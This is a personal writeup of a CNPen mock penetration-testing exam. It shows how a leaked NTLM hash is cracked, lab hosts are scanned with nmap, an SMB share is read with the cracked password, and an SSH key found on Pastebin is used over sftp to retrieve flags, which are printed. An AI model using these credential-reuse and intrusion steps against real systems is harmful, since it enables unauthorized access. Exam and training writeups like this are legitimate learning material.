 ```yaml
---
layout: post
title: "[CNPen] CNPen Mock Exam Writeup"
categories: hacking writeup network samba windows
---
```


# Introduction
I encountered those "challenges" when doing the mock exam for CNPen. There are 4 questions in total, divided in two parts. They were not hard at all, but I did learn something interesting to share.

# First part
In the first part of the exam, they provided a leaked hash `94643dacaa6b1b9cd9724ddb050b5f01` for a user named `Peter`
After successfully cracking the hash on [https://crackstation.net](https://crackstation.net/), I retrieved the password. I also knew that the type of the hash was NTLM.

![Crack station](/assets/images/cnpen/cs1.png)

I did an nmap scan to look for running services:
```
rzy@L4SPC % nmap -Pn -sV -p1-10000 s1.cnpen-mock.secops.group                                                         ~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-14 19:58 CDT
Nmap scan report for s1.cnpen-mock.secops.group (54.172.231.84)
Host is up (0.055s latency).
rDNS record for 54.172.231.84: ec2-54-172-231-84.compute-1.amazonaws.com
Not shown: 9998 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
4455/tcp open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.44 seconds
```

Next, I'll try the RDP one on port 3389:

![RDP1](/assets/images/cnpen/rdp1.png)

Let's try the other one, I know that `microsoft-ds` service is for file sharing, so let's install Samba and connect to the service:

```
rzy@L4SPC % smbclient -U peter -p 4455 -L s1.cnpen-mock.secops.group                                                  ~
Password for [WORKGROUP\peter]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        secret          Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to s1.cnpen-mock.secops.group failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```
It didn't connect but it showed me a list of shared objects. Let's try smbclient with different arguments.

```
rzy@L4SPC % smbclient -U peter -p 4455 //s1.cnpen-mock.secops.group/secret                                            ~
Password for [WORKGROUP\peter]:
Try "help" to get a list of possible commands.
smb: \> get Secret.txt
getting file \Secret.txt of size 66 as Secret.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \>
rzy@L4SPC % cat Secret.txt                                                                                            ~
flag{HbzBNrndXmTG3d6XwXdwchNpGBbUCRtLzeHrZaTvrQBpexpAZU7tuChxXGv7}%
```
# Second part
The second part of the exam was about OSINT. My objective is to find the leaked SSH key with one clue: `www.certharvest.com`

I used [WHOIS](https://www.whois.com/whois/certharvest.com) and `nslookup` to look for more info. Interestingly, it points to `localhost`.

```
rzy@L4SPC % nslookup www.certharvest.com                                                                              ~
Server:         172.22.208.1
Address:        172.22.208.1#53

Non-authoritative answer:
www.certharvest.com     canonical name = certharvest.com.
Name:   certharvest.com
Address: 127.0.0.1
```
I tried Duckduckgo to search for certharvest (because Google returned not much interesting information) and I found something intriguing: a Twitter (X) account that has posts about OSINT. Coincidence? I don't think so!

![x1](/assets/images/cnpen/x1.png)

![x2](/assets/images/cnpen/x2.png)

One more clue: the email address `certharvest@proton.me`. I tried to look it up on different OSINT sites, no relevance found.

I tried to search on Github, and there was a repo named `certharvest`, for a moment I thought that was it, but no sensitive information found!

Let's try search Pastebin instead. And right of the bat:

![Pastebin](/assets/images/cnpen/pb1.png)

Now the last challenge is to use the ssh key to get to somewhere, specifically to read the flag on `s2.cnpen-mock.secops.group`

Let's scan the site for more information:

```
rzy@L4SPC % nmap -A -Pn -sV s2.cnpen-mock.secops.group                                                                ~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-15 01:06 CDT
Nmap scan report for s2.cnpen-mock.secops.group (54.173.188.72)
Host is up (0.057s latency).
rDNS record for 54.173.188.72: ec2-54-173-188-72.compute-1.amazonaws.com
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE  SERVICE VERSION
22/tcp  closed ssh
222/tcp open   ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 10:d7:a2:36:a2:d7:a3:dc:c7:fb:73:b7:b3:ca:a2:f1 (ECDSA)
|_  256 fc:a9:d8:ed:8e:d6:62:e0:29:5e:de:51:bf:da:bb:5d (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.04 seconds
```

After setting up the key, let's go get the flag:

```
rzy@L4SPC % ssh alice@s2.cnpen-mock.secops.group -p222                                                                ~
This service allows sftp connections only.
Connection to s2.cnpen-mock.secops.group closed.
rzy@L4SPC % sftp -P 222 alice@s2.cnpen-mock.secops.group                                                              ~
Connected to s2.cnpen-mock.secops.group.
sftp> ls
alice
sftp> cd alice/
sftp> ls
flag.txt
sftp> get flag.txt
Fetching /alice/flag.txt to flag.txt
flag.txt                                                                              100%   67     0.7KB/s   00:00
sftp> ^D
rzy@L4SPC % cat flag.txt                                                                                              ~
flag{j7j9wTek9Mevc48NfNJD4eAWhi6FQRfaW22irWAcu2NBiVTcuHJ7qHA9g6tH}
```
And done!

# Conclusion
For an intermediate certificate, this is not hard. But this exam requires certain practical skills! 